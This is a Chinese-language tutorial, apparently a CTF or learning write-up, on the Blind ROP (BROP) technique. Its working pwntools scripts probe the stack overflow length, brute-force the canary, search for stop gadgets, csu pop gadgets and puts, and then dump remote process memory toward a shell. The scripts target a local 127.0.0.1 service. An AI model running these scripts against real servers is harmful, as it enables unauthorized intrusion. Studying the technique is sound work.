

# BROP

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

BROP(Blind ROP) 于 2014 年由 Standford 的 Andrea Bittau 提出，其相关研究成果发表在 Oakland 2014，其论文题目是 **Hacking Blind**


## 攻击条件

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。


## 攻击原理

目前，大部分应用都会开启 ASLR、NX、Canary 保护。这里我们分别讲解在 BROP 中如何绕过这些保护，以及如何进行攻击。


#### 基本思路

在 BROP 中，基本的遵循的思路如下

- 判断栈溢出的长度
- 暴力破解Canary
- 寻找一个可以让程序陷入无限循环的地址
- 寻找csu函数（pop rdi ret 等）
- 寻找puts等函数


### 判断栈溢出长度

从标准输入中填充数据，每次增加一字节，如果程序崩溃，表示最后一次填充覆盖了canary的最后一个字节。

即栈溢出长度为最后一次填充字节数 - 1

canary的设计使然，canary的最后一个字节始终为0，所以填充的字节只要不为0即可。


栈溢出长度payload

```python
def buffer_size() -> int:
	
    #保存栈溢出长度
    buf_flag = 0
    
    #初始设置栈溢出的长度为1字节
    buf = 1

    while buf_flag == 0:

        try:

            #p = process()
            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
            
            
			#发送填充数据
            payload = b"A" * buf
            p.send(payload)

            result = p.clean(0.1)

            p.close()
			
            #按照程序的设计，如果正常结束会返回by~~~
            if b"by~~~\n" in result:
                buf += 1
            #如果程序没有返回by~~~，则表示达到canary的最低为
            else:
                #最后一次发送的填充数据的字节数，减去1，就是栈溢出的长度
                buf_flag = buf - 1
                break

            
			#发生异常
        except:
            p.close()
            buf += 1
                
	#返回栈溢出字节数
    return buf_flag
```


### 暴力破解canary

攻击条件 2 表明了程序本身并不会因为 crash 有变化，所以每次的 canary 等值都是一样的。**可以按照字节进行爆破**。每个字节最多有 256 种可能，在 32 位的情况下最多需要爆破 1024 次，64 位最多爆破 2048 次。


爆破canary的payload

```python
def canary_crack(buf_flag:int):

    canary_flag = 0x0
    #已经爆破出来的字节的canary
    canary = b""
    #用来存放尝试爆破canary当前字节的值
    canary_byte = 0
    

    while canary_flag == 0:

        try:

            #p = process()
            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #填满到canary
            payload = b"A" * buf_flag
            #已经爆破的canary + 当前正在爆破的canary字节
            payload += canary + p8(canary_byte) 

            p.send(payload)
            result = p.clean(0.1)

            p.close()
			
            #如果没有输出by~~~则表示程序非正常退出，canary不符
            if (b"by~~~\n" in result) == False:
                canary_byte += 1
            else:
                #程序输出by~~~正常退出，当前canary爆破成功
                #将当前canary加到已经爆破的里面
                canary += p8(canary_byte)
				
                #canary的字节为8，如果已经爆破出来的canary长度达到8，则表明canary爆破完成
                if len(canary) == 8:
                    canary_flag = canary
                    break
                else:
                    canary_byte = 0

        except:

            p.close()
            canary_byte += 1
    #返回爆破的canary
    return canary_flag
```


### 寻找stop gadgets

stop gadgets是一个可以让程序陷入无限循环的地址，由此可以从0x400000地址开始尝试，每次地址增加一个字节。

将返回地址覆盖为当前尝试的stop gadgets，如果程序处于连接状态，则表明该地址是一个stop gadgets地址，如果远程连接被关闭了，则表明该地址不能让程序陷入无限循环，这不是stop gadgets，继续尝试下一个地址。


寻找stop gadgets的payload

```python
def find_stop_gadgets(buf_flag:int,canary_flag:bytes):

    stop_gadgets_flag = 0x0
    #从0x40000开始尝试
    stop_gadgets = 0x400000

    while stop_gadgets_flag == 0:

        try:
            #p = process()
            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #填充到返回地址
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            #返回地址覆盖为尝试的stop_gadgets地址
            payload += p64(stop_gadgets)
            p.send(payload)

			#此处尝试接受数据
            #如果连接被关闭，则recv会抛出一异常，那么这不是stop gadgets地址，继续尝试下一个地址
            #如果连接没有被关闭，等待了1秒钟后，recv会返回一个空字符
            Connection_flag = p.recv(timeout = 1)
            p.close()
			
            #如果返回的是一个空字符，则表明这是一个可以让程序陷入无限循环的地址
            if not Connection_flag:
                stop_gadgets_flag = stop_gadgets
            

        except:
            p.close()
            stop_gadgets += 1

    return stop_gadgets_flag
```


### 寻找csu_init函数

在寻找csu函数前，则先要定义地址的三种类型


- Probe
    - 探针，想要探测的是否为csu函数的地址
- Stop
    - 不会使得程序崩溃的 stop gadget 的地址。可以让程序陷入无限循环的地址
- Trap
    - 可以导致程序崩溃的地址


#### 寻找csu函数

查看csu函数的汇编代码，这个函数会将栈中的6个值出栈，所以可以如下设置栈中的数据

首先程序返回地址被覆盖为，probe，会执行probe处的代码。

如果probe处的代码，将栈中后面的6个trap出栈，那么probe执行完毕后，ret返回的地址为stop，函数就会陷入无限循环。

此时，只要检查程序是否陷入无限循环即可判断probe是否从栈中弹出的6个数据。

如果程序陷入无限循环，则表明probe可以从栈中弹出的6个数据，如果程序崩溃（远程连接断开）则表明不是。

```
probe + Trap + Trap + Trap + Trap + Trap + Trap + stop + Trap + ... + Trap
```




#### 判断地址是否为stop gadgets

但是如果probe本身就是一个stop gadgets，那么probe不需要弹出6个数据，probe本身就能让程序陷入无限循环，那么就该如何判断呢？

只需要让后面所有的内容变为 trap 地址即可。

如果probe**是一个**stop gadgets，那么程序就**不会崩溃**。远程连接**没有被关闭**，则表明这个地址不能弹出6个数据，不是需要找的地址。

如果probe**不是一个**stop gadgets，那么程序就**会崩溃**。远程连接被关闭了，则表明这个地址能弹出6个数据。

```
probe + Trap + Trap + Trap + Trap + Trap + Trap + Trap + Trap + ... + Trap
```


#### 判断地址是否为csu函数

即使probe能够从栈中弹出6个数据，也不见得他就是csu函数，例如下面的汇编代码，也可以实现同样的效果。


首先覆盖返回地址为probe。

ret执行后，rsp指向第一个trap，指向probe地址处的汇编代码。

probe地址第一条汇编语句，将rsp减去0x30，该代码的效果和6条pop汇编的效果一致。

执行完毕probe第一条汇编语句后，rsp指向stop gadgets。

probe第二条汇编语句ret就会返回到stop gadgets，此时程序也会陷入无限循环。


栈中数据

```
probe + Trap + Trap + Trap + Trap + Trap + Trap + Stop + Trap + ... + Trap
```


probe地址处的汇编代码

```
sub rsp,0x30
ret
```


由于汇编代码的特性，可以通过偏移来执行不同的汇编指令。


csu函数地址+0x7则会执行 pop rsi ； pop r15 ；ret 指令

csu函数地址+0x9则会执行 pop rdi ； ret 指令


那么可以将栈中数据设置为以下两个情况，如果probe地址能同时满足，且程序不会崩溃，那么这个地址99.9999%是一个csu函数的地址。

```
(probe+0x7) + trap + trap + stop + trap + ... + trap
```

```
(probe+0x9) + trap + stop + trap + ... + trap
```


#### 寻找弹出6参数的payload

```python
def find_BROP_gadgets(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes):

    BROP_gadgets_flag = 0x0
    probe = 0x400000

    while BROP_gadgets_flag == 0:

        try:

            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #覆盖到返回地址
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            #覆盖返回地址为probe
            payload += p64(probe)
            #6个trap
            payload += Trap_gadgets_flag * 0x6
            #stop
            payload += stop_gadgets_flag
            #填充n个trap
            payload += Trap_gadgets_flag * 0x10
            p.send(payload)
			
            #超时返回空字符
            Connection_flag = p.recv(timeout = 1)
            p.close()

			#检测是否为空字符
            #检测probe是否不为stop gadgets
            #检测probe是否满足csu函数的两个条件
            if not Connection_flag and check_BROP_gadgets_stop(buf,canary,stop_gadgets,Trap_gadgets,probe) and check_BROP_gadgets_csu(buf,canary,stop_gadgets,Trap_gadgets,probe):
                BROP_gadgets_flag = probe
            else:
                probe += 1
            

        except:
            p.close()
            probe += 1

    return BROP_gadgets_flag
```


#### 检测probe是否不为stop gadgets

```python
def check_BROP_gadgets_stop(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes,probe:int):

    try:
        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(probe)
        payload += Trap_gadgets_flag * 0x6
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)

        Connection_flag = p.recv(timeout = 1)
        p.close()


        if not Connection_flag:
            return False

    except:

        p.close()
        return True
```


#### 检测是否满足csu的两个条件

```python
def check_BROP_gadgets_csu(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes,probe:int):
    
    try:

        #检测 + 0x7 后是否为 pop rsi ; pop r15 ; ret
        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        pop_rsi_r15 = probe + 0x7

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(pop_rsi_r15)
        payload += Trap_gadgets_flag * 0x2
        payload += stop_gadgets_flag
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)

        Connection_flag = p.recv(timeout = 1)
        p.close()

        #检测 + 0x9 后是否为 pop rdi ; ret

        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")

        pop_rdi = probe + 0x9

        payload =  b"A" * buf_flag + canary_flag + p64(0)
        payload += p64(pop_rdi)
        payload += Trap_gadgets_flag * 0x1
        payload += stop_gadgets_flag
        payload += Trap_gadgets_flag * 0x10
        p.send(payload)

        Connection_flag = p.recv(timeout = 1)
        p.close()

        return True

    except:

        p.close()
        return False
```


### 寻找puts函数

直到csu函数后，就可以控制参数传递的第一个值了，此时就可以来寻找puts函数了。

如果一个程序没有开启PIE地址随机化，那么从0x400000开始，第2、3、4字节分别对应字符E、L、F。

所以可以通过pop_rdi将0x400000从栈中如rdi寄存器，在ret返回到probe地址，如果probe地址为puts函数，那么程序输出的字符串中就会包含"ELF"字符，从而可以判断probe是否为puts函数地址


payload

```python
def find_puts_function(buf_flag:int,canary_flag:bytes,pop_rdi:bytes):

    puts_flag = 0x0
    probe_puts = 0x400624

    while puts_flag == 0:

        try:

            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            payload += pop_rdi + p64(0x400000)
            payload += p64(probe_puts)
            p.send(payload)
			

            Context = p.recv(timeout = 1)
            p.close()
			
            #返回的内容中存在ELF
            if b"ELF" in Context:
                puts_flag = probe_puts
                break

            probe_puts += 1
            
        except:
            
            p.close()
            probe_puts += 1
                
    return puts_flag
```


#### 使用puts函数

编写一个函数，调用此函数，可以输出内存中指定地址的数据。

```python
def puts_byte(buf_flag:int,canary_flag:bytes,pop_rdi:bytes,addr:int,puts_addr:bytes,byteNumlen:int):

    #puts_addr 从指定的内存地址
    #byteNumlen 要获取的字节数
    
    #已经获取的字节数
    byteNum = 0
    #已经获取的字节
    DataAll = b""


    while byteNum < byteNumlen:

        p = remote('127.0.0.1',9999)
        p.recvuntil(b"You Name?:")
		
        #输出指定内存中的内容
        payload =  b"A" * buf + canary + p64(0)
        payload += pop_rdi + p64(addr)
        payload += puts_addr
        p.send(payload)
        
        
		#获取输出的内容
        Data = p.recvline()
        p.close()
		
        #puts函数会持续输出，直到遇到0，然后补上一个换行字符
        Data = bytearray(Data)
        #将换行字符替换为0
        Data[-1] = 0
        Data = bytes(Data)

        DataAll += Data

        byteNum += len(Data)
        addr += len(Data)

    #进行裁剪，如果获取多了
    DataAll = DataAll[0:byteNumlen]

    return DataAll
```


使用这种方法，可以获得很多的地址，甚至从内存中将整个二进制文件获取到，这足够获取到shell权限了